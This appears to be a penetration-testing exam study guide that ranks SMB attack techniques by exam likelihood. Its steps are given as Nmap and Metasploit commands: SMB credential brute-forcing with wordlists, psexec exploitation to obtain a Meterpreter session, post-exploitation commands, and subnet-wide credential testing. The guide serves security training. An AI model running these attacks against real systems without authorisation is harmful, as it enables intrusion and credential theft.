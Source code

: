 #### **Level 1 - Essential (You WILL see this):**
```bash
# Nmap SMB discovery - FUNDAMENTAL SKILL
nmap -p445 --script smb-protocols target
# Expected: SMB protocol version information

# Metasploit credential attack - CORE TECHNIQUE  
use auxiliary/scanner/smb/smb_login
set RHOSTS target
set USER_FILE /usr/share/wordlists/users.txt
set PASS_FILE /usr/share/wordlists/passwords.txt
exploit
# Expected: Valid credential discovery

# PSExec exploitation - CRITICAL SKILL
use exploit/windows/smb/psexec
set RHOSTS target
set SMBUser username  
set SMBPass password
exploit
# Expected: Meterpreter session establishment
```

#### **Level 2 - Important (Good chance you'll see this):**
```bash
# SMB share enumeration - INFORMATION GATHERING
nmap --script smb-enum-shares target
# Expected: Available share listing

# Version detection - SERVICE FINGERPRINTING
use auxiliary/scanner/smb/smb_version
set RHOSTS target
exploit
# Expected: SMB version and OS information

# Session interaction - POST-EXPLOITATION
shell
whoami
systeminfo
# Expected: System information and user context
```

#### **Level 3 - Advanced (Might appear):**
```bash
# Vulnerability scanning - ADVANCED ASSESSMENT
nmap --script smb-vuln-* target
# Expected: Known vulnerability identification

# Multiple target scanning - EFFICIENT OPERATIONS  
set RHOSTS 192.168.1.0/24
set THREADS 10
exploit
# Expected: Network-wide credential testing
```
